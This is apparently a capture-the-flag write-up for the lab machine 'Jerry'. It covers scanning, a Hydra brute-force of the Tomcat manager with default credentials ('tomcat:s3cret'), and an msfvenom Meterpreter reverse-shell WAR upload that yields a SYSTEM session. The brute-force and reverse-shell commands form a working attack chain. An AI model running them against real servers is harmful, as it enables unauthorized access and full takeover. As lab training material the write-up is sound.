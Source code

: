 # Jerry

This is the write-up for a machine called Jerry.

## Scanning & Enumeration

Let's start with an nmap scan:

```markdown
nmap -T4 -A -p- 10.10.10.95
```

Relevant results of the scan: 

```markdown
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## HTTP 

The web server is running on port 8080 and it is displaying a default page of a **Tomcat installation**
The administration page of a default Tomcat server can be found in the **/manager** directory or by clicking on the **"Manager App"** button.

## Brute Force password attack

The web page will ask for a username and password. 
We can try to crack it with **Hydra**:

```markdown
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.10.10.95 -s 8080 http-get /manager/html
```

Or, you can grab a list of default passwords from [netbiosX's GitHub](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)
and run a credential stuffing attack using BurpSuite.
The default credentials are **"tomcat:s3cret"** and we can log in to the administration page.

## Exploiting Tomcat Web Application Manager using Metasploit

Tomcat uses Java Servlets (jsp) and we can upload **Web Application Archive (WAR)** files on the server.

We can create a WAR file that starts a reverse shell with **msfvenom**:

```markdown
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= <your ip> LPORT=5555 -f war -o shell.war
```

Load **Metasploit** and set up your listener:

```markdown
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST <your ip>
msf5 exploit(multi/handler) > set LPORT 5555

msf5 exploit(multi/handler) > exploit -j
```

We can upload the **shell.war** file on the server and wee see **"/shell"** in the applications menu. By clicking it, we gain a shell on our listener console tab.
In case this fails and shows you an HTTP error 404, you can try unzipping the WAR file to request the full name of the JSP file:

```markdown
unzip shell.war

(...)
inflating: iklfcfrjeti.jsp
```

After searching for **"http://10.10.10.95:8080/shell/iklfcfrjeti.jsp"** the meterpreter listener starts a session on the machine as **NT Authority/SYSTEM**.
